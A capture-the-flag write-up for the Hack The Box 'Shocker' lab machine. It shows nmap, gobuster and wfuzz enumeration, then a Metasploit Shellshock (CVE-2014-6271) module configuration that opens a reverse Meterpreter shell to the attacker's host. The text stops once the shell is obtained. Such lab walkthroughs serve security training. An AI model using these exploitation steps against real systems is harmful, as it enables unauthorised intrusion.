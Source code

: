 # htb-shocker
This is my [Hack the box](https://www.hackthebox.eu/)'s Shoker machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.56

Difficulty: Easy

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.56`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/shoker# nmap -sV -sC -oN shocker.nmap 10.10.10.56
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-23 14:54 EDT
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```
The page itself just has a picture that doesn't really say much. Inspecting the page using dev tools doesn't give any extra information either.

Enumerate directories of the webpage using [gobuster](https://github.com/OJ/gobuster):
```
root@kali:/usr/share/wordlists# gobuster dir --url 10.10.10.56 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --timeout 20s
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        20s
===============================================================
2020/05/23 15:18:57 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/23 15:19:39 Finished
===============================================================
```

Duckduckducking a bit noticed that the machine's name refers to the Shell Shock vulnerability (CVE-2014-6271), which is related to the `/cgi-bin` directory.

Search on Metasploit:
```
msf > search shellshock

Matching Modules
================

   Name                                               Disclosure Date  Rank       Description
   ----                                               ---------------  ----       -----------
   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
   exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
```

`multi/http/apache_mod_cgi_bash_env_exec` is the one we were looking for. But this one needs the URI of some script that may be under `/cgi-bin`. 


After several attempts with [wfuzz](https://github.com/xmendez/wfuzz), this one is good for finding `user.sh` was there:

```
root@kali:~# wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  http://10.10.10.56/cgi-bin/FUZZ.sh
```

Now we got the script it's possible to exploit the vulnerability. These are the final options set:
```
   Name            Current Setting                     Required  Description
   ----            ---------------                     --------  -----------
   CMD_MAX_LENGTH  2048                                yes       CMD max line length
   CVE             CVE-2014-6271                       yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent                          yes       HTTP header to use
   METHOD          GET                                 yes       HTTP method to use
   Proxies                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST           10.10.10.56                         yes       The target address
   RPATH           /bin                                yes       Target PATH for binaries used by the CmdStager
   RPORT           80                                  yes       The target port (TCP)
   SRVHOST         0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080                                yes       The local port to listen on.
   SSL             false                               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       http://10.10.10.56/cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                                   yes       HTTP read response timeout (seconds)
   URIPATH                                             no        The URI to use for this exploit (default is random)
   VHOST                                               no        HTTP server virtual host
```

And it's possible to get a shell by exploiting it:
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.56:57908) at 2020-05-24 07:35:52 -0400
```
